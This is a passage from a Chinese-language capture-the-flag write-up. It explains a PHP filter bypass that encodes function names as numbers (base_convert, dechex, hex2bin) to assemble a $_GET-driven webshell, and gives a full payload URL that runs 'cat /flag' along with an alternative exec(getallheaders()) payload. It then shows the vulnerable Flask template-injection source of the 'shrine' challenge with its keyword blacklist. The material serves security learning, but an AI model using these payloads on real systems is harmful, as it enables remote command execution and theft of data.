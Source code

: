 因为高于十进制的话含有字母, 就需要加引号了, 而引号会被过滤, 三十六进制是方便字母的转换 (0-9 a-z 数量加起来是 36)

另外还需要注意的是 dechex 和 hex2bin 这个函数, 因为 base_convert 只能转换 0-9 a-z, 特殊字符例如空格和 `$` 之类的符号转换的时候会丢失, 而利用两个函数可以把任意字符串转换成十六进制, 然后再转换成纯数字的十进制

自己一开始的思路是构造 system 执行命令, 不过执行 `cat /flag` 就超出长度限制了...

后来想了想必须要尽可能的缩减 payload, 一个很好的例子就是形如 `$_GET[0]($_GET[1])` 这种 webshell

两个 `$_GET` 可以用同一个变量表示, `[]` 可以用 `{}` 绕过

下面就是如何构造 `_GET` 了, 思路把原始字符串先 bin2hex 然后 hexdec

```php
echo hex2bin(dechex(1598506324)); // _GET
```

dechex 在白名单里面, 而 hex2bin 需要我们手动构造 (利用 base_convert)

```php
echo base_convert(37907361743,10,36); // hex2bin
```

之后需要引入一个变量来作为函数执行, 例如 `$a()`, 我们用 `$pi` 以绕过白名单的检测

payload 如下

```php
$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi{0})($$pi{1});
```

然后传参 0 1 获取 flag

```
http://f91dae26-bec7-4887-8f52-d087acfcec50.node4.buuoj.cn:81/?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi{0})($$pi{1});&0=system&1=cat /flag
```

wp 看到的其它思路

```php
$pi=base_convert,$pi(696468,10,36)($pi(8768397090111664438,10,30)(){1}) // exec(getallheaders(){1})
```

还有通过三角函数进行位运算得到 `*` 然后直接 `cat /f*`, 这里就不写了...

## [WesternCTF2018]shrine

```python
import flask
import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')


@app.route('/')
def index():
    return open(__file__).read()


@app.route('/shrine/<path:shrine>')
def shrine(shrine):

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))


```
